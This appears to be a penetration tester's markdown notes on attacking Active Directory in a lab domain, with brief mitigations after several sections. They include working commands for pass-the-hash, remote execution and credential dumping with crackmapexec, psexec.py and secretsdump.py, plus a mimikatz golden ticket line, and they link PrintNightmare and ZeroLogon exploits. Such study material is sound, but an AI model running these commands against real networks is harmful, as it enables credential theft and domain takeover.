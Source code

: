 

### Pass the Hash / Pass the Password

```
sudo apt install crackmapexec 

crackmapexec <IP/CIDR> -u <user> -d <domain> -p <password> 

crackmapexec smb <IP/CIDR> -u <user> -H <hash> --local-auth
```


```
psexec.py marvel/fcastle:Password1@<IP>

secretsdump.py marvel/fcastle:Password1@<IP>

psexec.py "frank castle":@<IP> -hashes LMHASH:LTHASH
```

---

#### Pass attacke mitigations

Hard to completely prevent, but we can make it more difficult on an attacker:
- Limit account re-use:
  - Avoid re-using local admin password
  - Disable Guest and Administrator accounts
  - Limit who is a local administrator (least privilege)
- Utilize strong passwords:
  - The longer the better (>14 characters)
  - Avoid using common words
  - I like long sentences
- Privilege Access Management (PAM)
  - Check out/in sensitive accounts when needed
  - Automatically rotate passwords on check out and check in
  - Limits pass attacks as hash/password is strong and constantly rotated

---

### Token Impersonation

What are tokens?
- Temporary keys that allow you access to a system/network without having to provide credentials each time you access a file. Think cookies for computers.

Two types:
- Delegate - Created for logging into a machine or using Remote Desktop
- Impersonate - "non-interactive" such as attaching a network drive or a domain logon script

https://www.offensive-security.com/metasploit-unleashed/fun-incognito/

#### Token Impersonation Mitigation

Mitigation Strategies:
- Limit user/group token creation permissions
- Account tiering
- Local admin restriction

---

### Kerberoasting 

https://medium.com/@Shorty420/kerberoasting-9108477279cc

#### Mitigation Strategies:
- Strong Passwords
- Least privilege

-----

### GPP Attacks 

#### Overview:
- Group Policy Preferences allowed admins to create policies using embedded credentials
- These credentials were encrypted and placed in a "cPassword"
- The key was accidentally released 
- Patched in MS14-025, but doesn't prevent previous uses

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

-------

### URL File Attacks

- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#scf-and-url-file-attack-against-writeable-share

-------

**PrintNightmare**
- https://github.com/cube0x0/CVE-2021-1675#scanning
- https://github.com/calebstewart/CVE-2021-1675

-----

### Mimikatz

#### What is Mimikatz?:
- Tool used to view and steal credentials, generate Kerberos tickets, and leverage attacks
- Dumps credentials stored in memory.
- Credential Dumping,  Pass-the-Hash, Over-Pass-the-Hash, Pass-the-Ticket, Golden Ticket, Silver Ticket

https://github.com/gentilkiwi/mimikatz/wiki

-----

### Golden Ticket Attacks

```
mimikatz# kerberos::golden /User:Administratorfake123 /domain:Marvel.local /sid:s-1-5-21-3e1214212-392ø777931-1277971883 /krbtgt:11f843aafd22acfb29aef92f6e423994 /id:500 /ptt
```

-----

### Abusing ZeroLogon

What is ZeroLogon? - https://www.trendmicro.com/en_us/what-is/zerologon.html

dirkjanm CVE-2020-1472 - https://github.com/dirkjanm/CVE-2020-1472

SecuraBV ZeroLogon Checker - https://github.com/SecuraBV/CVE-2020-1472


-----

### Additional resources 

Active Directory Security Blog: https://adsecurity.org/

Harmj0y Blog: http://blog.harmj0y.net/





